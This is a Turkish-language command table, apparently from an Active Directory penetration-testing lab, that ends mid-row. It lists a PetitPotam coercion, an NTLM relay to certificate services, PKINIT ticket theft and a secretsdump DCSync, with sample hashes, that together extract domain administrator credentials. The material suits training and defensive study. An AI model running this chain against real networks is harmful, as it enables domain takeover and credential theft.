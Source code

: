 <table>
  <thead>
    <tr>
      <th>Komut</th>
      <th>Açıklama</th>
      <th>Kullanıcı</th>
      <th>Hedef</th>
      <th>Notlar</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>git clone [https://github.com/topotam/PetitPotam.git](https://github.com/topotam/PetitPotam.git)</td>
      <td>PetitPotam exploit kodunu indir</td>
      <td>Linux Kullanıcı</td>
      <td>-</td>
      <td>Git kullanılarak yapılır.</td>
    </tr>
    <tr>
      <td>python3 PetitPotam.py 172.16.5.225 172.16.5.5</td>
      <td>PetitPotam exploit kodunu çalıştır</td>
      <td>Linux Kullanıcı</td>
      <td>Hedef (Domain Controller)</td>
      <td>Hedef IP adresleri belirtilir.</td>
    </tr>
    <tr>
      <td>sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController</td>
      <td>NTLM relay oluşturmak için Impacket aracı</td>
      <td>Linux Kullanıcı</td>
      <td>Hedef (CA Sunucu)</td>
      <td>Sunucu sertifika kayıt URL'si belirtilir.</td>
    </tr>
    <tr>
      <td>python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache</td>
      <td>TGT bileti almak için Impacket aracı</td>
      <td>Linux Kullanıcı</td>
      <td>Domain Controller</td>
      <td>Base64 sertifika ve ccache dosyası oluşturulur.</td>
    </tr>
    <tr>
      <td>klist</td>
      <td>Ccache dosyasının içeriğini görüntüle</td>
      <td>Linux Kullanıcı</td>
      <td>-</td>
      <td>Kerberos bilet bilgilerini gösterir.</td>
    </tr>
    <tr>
      <td>python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$</td>
      <td>NTLM hash değerleri almak</td>
      <td>Linux Kullanıcı</td>
      <td>Domain Controller</td>
      <td>TGS istekleri gönderilir ve hash değerleri alınır.</td>
    </tr>
    <tr>
      <td>secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL</td>
      <td>NTLM hash değerlerini NTDS.dit dosyasından çıkarmak</td>
      <td>Linux Kullanıcı</td>
      <td>Domain Controller</td>
      <td>DCSync saldırısı ve TGT bileti kullanılır.</td>
    </tr>
    <tr>
      <td>secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba</td>
      <td>NTL
